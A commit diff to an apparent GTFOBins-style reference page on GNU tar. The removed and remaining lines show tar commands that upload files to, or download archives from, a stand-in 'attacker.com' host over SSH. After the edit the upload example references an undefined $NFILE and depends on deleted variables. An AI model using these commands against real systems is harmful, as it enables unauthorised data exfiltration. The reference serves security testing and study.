

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/tar.md, in a window 1280 px wide. Shown: the part 335-955 px from the top of the page, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Update tar.md

```diff
--- a/_gtfoud/tar.md
+++ b/_gtfoud/tar.md
@@ -3,16 +3,9 @@ functions:
   file-upload:
     - description: This only works for GNU tar. Create tar archive and send it via SSH to a remote location. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
       code: |
-        RHOST=attacker.com
-        RUSER=root
-        RFILE=/tmp/file_to_send.tar
-        LFILE=file_to_send
-        tar cvf $RUSER@$RHOST:$RFILE $LFILE --rsh-command=/bin/ssh
+        tar cvf $RUSER@$RHOST:$NFILE $LFILE --rsh-command=/bin/ssh
   file-download:
     - description: This only works for GNU tar. Download and extract a tar archive via SSH. The attacker box must have the `rmt` utility installed (it should be present by default in Debian-like distributions).
       code: |
-        RHOST=attacker.com
-        RUSER=root
-        RFILE=/tmp/file_to_get.tar
         tar xvf $RUSER@$RHOST:$RFILE --rsh-command=/bin/ssh
 ---
```
